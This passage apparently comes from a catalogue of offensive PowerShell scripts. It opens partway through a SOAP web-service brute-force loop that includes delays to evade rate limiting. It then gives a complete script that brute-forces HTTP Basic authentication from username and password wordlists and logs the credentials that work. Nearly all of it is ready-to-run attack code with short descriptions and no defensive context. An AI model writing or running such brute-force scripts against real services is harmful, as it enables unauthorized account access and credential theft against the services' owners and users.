 ```powershell
        if ($response.StatusCode -eq 200) {
            Write-Host "Login successful: $username:$password"
            # Perform additional actions
        } else {
            Write-Host "Login failed: $username:$password"
        }
        Start-Sleep -Seconds $delaySeconds
    }
}
```

**Description:**

Performs brute-force attacks on a SOAP web service with XML-based authentication, including delays to avoid rate limiting.

**Example:**

Test SOAP authentication for https://api.example.com/webservice with a 2-second delay.

---

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$logFile = "snowcap_bruteforce_log.txt"
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $base64Auth = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes(("${username}:${password}")))
        $headers = @{ Authorization = "Basic $base64Auth" }
        $response = Invoke-RestMethod -Uri "https://api.example.com/resource" -Method Get -Headers $headers
        if ($response.Status -eq "success") {
            Write-Output "$((Get-Date).ToString('yyyy-MM-dd HH:mm:ss')) - Successful login: $username:$password" | Out-File -Append -FilePath $logFile
        } else {
            Write-Output "$((Get-Date).ToString('yyyy-MM-dd HH:mm:ss')) - Failed login: $username:$password" | Out-File -Append -FilePath $logFile
        }
    }
}
```

**Description:**

Implements logging for web service brute-force attempts, recording success or failure with timestamps.

**Example:**

Log all attempts for https://api.example.com/resource to snowcap_bruteforce_log.txt.

---
